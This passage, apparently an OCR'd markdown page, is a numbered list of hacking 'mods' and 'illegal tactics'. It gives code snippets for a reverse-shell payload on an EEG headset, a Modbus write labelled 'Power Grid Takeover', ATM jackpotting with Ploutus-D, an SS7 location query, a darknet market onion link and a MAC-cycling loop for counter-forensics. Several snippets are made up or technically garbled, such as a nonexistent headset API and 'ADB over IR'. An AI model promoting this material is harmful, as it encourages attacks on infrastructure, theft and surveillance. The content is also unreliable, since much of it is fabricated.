 ### **Cyberware Mods**  
4. **Neural Interface**  
   - **Neurable EEG Headset** ($2k) + custom firmware  
     ```python  
     import neurable  
     neurable.connect()  
     neurable.inject_payload("reverse_shell.exe")  
     ```  

5. **Subdermal NFC Implant**  
   - xNTi NFC chip ($150) + magnet implant  
   - Clone HID keycards via subcutaneous reader  

6. **Optical Mod**  
   - **Tap Strap 2** ($300) for air-gapped keyboard injection  
   ```text  
   ADB over IR: adb connect 192.168.4.1:5555  
   ```  

---

### **Illegal Tactics**  
7. **Power Grid Takeover**  
   ```bash  
   # SCADA system exploit (Modbus/TCP)  
   python3 pymodbus.py -r 1 -c 10 -f 6 -d 1 192.168.1.100  
   ```  

8. **ATM Jackpotting**  
   - **Ploutus-D** malware ($15k) + Black Box attack  
   ```text  
   Send "UNLOCK" command via RS-232  
   Dispense all cash via CMD_DISPENSE(0)  
   ```  

9. **Implant Tracking**  
   - Stingray IMSI catcher + **SS7 protocol exploit**  
   ```text  
   sendRoutingInfoForSM msisdn=+1234567890  
   ```  

---

### **Darknet Resources**  
10. **Markets**  
   - **AlphaBay Reloaded** (http://alphabay522szl32u4ci5e3iok6gusjrp7h7q6xekpdmyjroiawv2jqd[.]onion)  
   - **MGM Grand** (exploit broker)  

11. **Tutorials**  
   - **Anarcho-Cybernetics Vol. III** (PDF on Dread)  
   - **L0pht Heavy Industries** archives  

---

### **Counter-Forensics**  
12. **MAC Address Cycling**  
   ```bash  
   while true; do macchanger -r eth0; sleep 60; done  
   ```  
